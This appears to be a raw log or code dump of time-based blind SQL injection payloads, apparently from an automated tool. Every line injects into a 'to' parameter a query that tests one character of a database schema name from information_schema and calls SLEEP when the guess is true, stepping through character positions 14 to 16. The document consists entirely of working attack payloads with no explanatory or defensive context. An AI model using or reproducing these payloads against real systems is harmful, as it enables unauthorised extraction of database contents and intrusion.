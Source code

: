 {to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=100,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>100,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=98,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>98,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=99,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,15,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,15,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,15,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,15,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,15,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,15,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,15,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=100,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>100,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=102,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>102,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=101,SLEEP(0.155797244898),SLEEP(0))}